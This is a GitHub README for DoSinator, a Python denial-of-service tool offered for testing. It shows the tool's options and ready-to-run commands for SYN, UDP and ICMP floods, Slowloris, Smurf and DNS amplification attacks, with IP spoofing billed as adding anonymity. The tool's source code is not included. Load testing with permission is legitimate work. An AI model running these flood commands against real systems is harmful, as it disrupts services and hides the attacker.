

# DoSinator

DoSinator is a powerful Denial of Service (DoS) testing tool developed with Python. Designed for security professionals and researchers, this tool allows them to simulate various DoS attacks. In this way, it provides a realistic environment for assessing the resilience of networks, systems and applications against potential cyber threats.

## Features

- **Multiple Attack Modes**: DoSinator supports SYN Flood, UDP Flood, ICMP Flood,Os Fingerprint, Slowloris, and Smurf attack modes, allowing you to simulate various types of DoS attacks.
- **Customizable Parameters**: Adjust the packet size, attack rate, and duration to fine-tune the intensity and duration of the attack.
- **IP Spoofing**: Enable IP spoofing to mask the source IP address and enhance anonymity during the attack.
- **Multithreaded Packet Sending**: Utilize multiple threads for simultaneous packet sending, maximizing the attack speed and efficiency.
- **Data from File**: Load custom data from a file to be sent in the attack packets.
- **PCAP Output**: Save the outgoing attack packets to a PCAP file for further analysis.

## Requirements

- Python 3.x
- scapy
- argparse

## Installation

1. Clone the repository:

   ```shell
   git clone https://github.com/HalilDeniz/DoSinator.git
   ```

2. Navigate to the project directory:

   ```shell
   cd DoSinator
   ```

3. Install the required dependencies:

   ```shell
   pip install -r requirements.txt
   ```

## Usage

```shell
python3 dosinator.py --help                                                                 
    ____             ____            __                
   / __ \____  _____/  _/___  ____ _/ /_____  _____    
  / / / / __ \/ ___// // __ \/ __ `/ __/ __ \/ ___/    
 / /_/ / /_/ (__  )/ // / / / /_/ / /_/ /_/ / /  _ _ _ 
/_____/\____/____/___/_/ /_/\__,_/\__/\____/_/  (_|_|_)
                                                       

usage: dosinator.py [-h] -t TARGET -p PORT [-np NUM_PACKETS] [-ps PACKET_SIZE] [-ar ATTACK_RATE] [-d  DURATION]
                    [-am {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}] [-sp SPOOF_IP] [--data DATA] [--file FILE]
                    [--pcap PCAP]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IP address
  -p PORT, --port PORT  Target port number
  -np NUM_PACKETS, --num_packets NUM_PACKETS
                        Number of packets to send (default: 500)
  -ps PACKET_SIZE, --packet_size PACKET_SIZE
                        Packet size in bytes (default: 64)
  -ar ATTACK_RATE, --attack_rate ATTACK_RATE
                        Attack rate in packets/second (default: 10)
  -d  DURATION, --duration DURATION
                        Duration of the attack in seconds
  -am {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}, --attack-mode {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}
                        Attack mode (default: syn)
  -sp SPOOF_IP, --spoof-ip SPOOF_IP
                        Spoof IP address
  --data DATA           Custom data string to send
  --file FILE           File path to read data from
  --pcap PCAP           PCAP file path to save outgoing packets
```

- `target_ip`: IP address of the target system.
- `target_port`: Port number of the target service.
- `num_packets`: Number of packets to send (default: 500).
- `packet_size`: Size of each packet in bytes (default: 64).
- `attack_rate`: Attack rate in packets/second (default: 10).
- `duration`: Duration of the attack in seconds.
- `attack_mode`: Attack mode: syn, udp, icmp, http (default: syn).
- `spoof_ip`: Spoof IP address (default: None).
- `data`: Custom data string to send.
- `file`: File path to read data from.
- `pcap`: PCAP file path to save outgoing packets


## Usage Examples

Here are some usage examples of DoSinator:

#### SYN Flood Attack
```shell
python dosinator.py -t 192.168.1.1 -p 80 -ar 1000 -d 60 -am syn
```

#### UDP Flood Attack with Custom Data
```shell
python dosinator.py -t 192.168.1.2 -p 53 -ar 500 -d 120 -am udp --data "CustomPayload123"
```

#### ICMP Flood Attack with IP Spoofing
```shell
python dosinator.py -t 192.168.1.3 -p 443 -ar 200 -d 180 -am icmp -sp random
```

#### HTTP Slowloris Attack
```shell
python dosinator.py -t 192.168.1.4 -p 8080 -ar 50 -d 300 -am slowloris
```

#### Smurf Attack
```shell
python dosinator.py -t 192.168.1.5 -p 0 -ar 100 -d 240 -am smurf
```

#### DNS Amplification Attack with Data from File
```shell
python dosinator.py -t 192.168.1.6 -p 53 -ar 300 -d 150 -am dns --file dns_query.txt
```


Please use this tool responsibly and ensure you have the necessary permissions before conducting any tests.

## Contributing

Contributions are welcome! If you find any issues or have suggestions for improvements, feel free to open an issue or submit a pull request.

## Contact

If you have any questions, comments, or suggestions about Dosinator, please feel free to contact me:
- Linktr [halildeniz](https://linktr.ee/halildeniz)
- DenizHalil [DenizHalil](https://denizhalil.com)
- LinkedIn: [Halil Ibrahim Deniz](https://www.linkedin.com/in/halil-ibrahim-deniz/)
- TryHackMe: [Halilovic](https://tryhackme.com/p/halilovic)
- Instagram: [deniz.halil333](https://www.instagram.com/deniz.halil333/)
- YouTube: [Halil Deniz](https://www.youtube.com/c/HalilDeniz)
- Email: halildeniz313@gmail.com


## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

## 💰 You can help me by Donating
  Thank you for considering supporting me! Your support enables me to dedicate more time and effort to creating useful tools like Dosinator and developing new projects. By contributing, you're not only helping me improve existing tools but also inspiring new ideas and innovations. Your support plays a vital role in the growth of this project and future endeavors. Together, let's continue building and learning. Thank you!"<br>
  [](https://buymeacoffee.com/halildeniz) 
  [](https://patreon.com/denizhalil) 

  
